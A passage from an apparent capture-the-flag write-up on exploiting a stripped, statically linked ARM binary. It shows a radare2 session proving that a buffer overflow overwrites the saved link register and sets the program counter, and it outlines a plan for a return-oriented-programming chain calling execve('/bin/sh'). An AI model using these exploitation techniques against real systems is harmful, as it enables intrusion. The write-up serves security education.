 ```
|	lr		|
-------------------------
```

As we correctly guessed, the program is vulnerable to stack smashing using buffer overflow. That means the 69th to  72nd characters (inclusive) of our input would overwrite the `lr` value in the stack. We did an experiment below to prove the theory. As the output shows, `0x62626262` (ie hex for 'bbbb') was loaded into the `pc`.
```
[0x00010440]> ood
[...]
[0x00010440]> db 0x00010460
[...]
[0x00021240]> dc
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbccccdddd
hit breakpoint at: 10460
[0x00010460]> dr
[...]
r13 = 0x7e91ae48
[...]
[0x00010460]> x/12x @0x7e91ae48
0x7e91ae48  0x61616161 0x62626262 0x63636363 0x64646464  aaaabbbbccccdddd
0x7e91ae58  0x7e91af0a 0x00010441 0x00000000 0x00000000  ...~A...........
0x7e91ae68  0xe0a35746 0x9e33ff29 0x00010158 0x00010995  FW..).3.X.......
[0x00010460]> ds
child stopped with signal 7
[+] SIGNAL 7 errno=0 addr=0x62626262 code=0 ret=0
[+] signal 7 aka SIGBUS received 0
[0x62626262]> dr pc
0x62626262
[0x62626262]>
```

We had a way to redirect program execution. The question became, "What can we call?" As we found earlier, the binary is statically linked. That means it contains library functions that it directly or indirectly references.

> In static linking, the size of the executable becomes greater than in dynamic linking, as the library code is stored within the executable rather than in separate files.
>  
> -- Wikipedia

Since the binary is stripped, we were unable to find a suitable function to call. However, the presence of a lot of functions signaled the presence of *a lot* of ROP gadgets. Thus, we made use of Return Oriented Programming.  We wanted to call the syscall `execve('/bin/sh', 0x0, 0x0)`. In most cases, binaries provided by other CTF challenges provide the string `"/bin/sh"` in the binary. If that was the case, we simply had to load the offset of said string into the register `r0`. Unfortunately, the challenge creator had other plans in mind.

```
➜  Static_1000 git:(master) ✗ strings -t x static | grep "bin/sh"
➜  Static_1000 git:(master) ✗
```
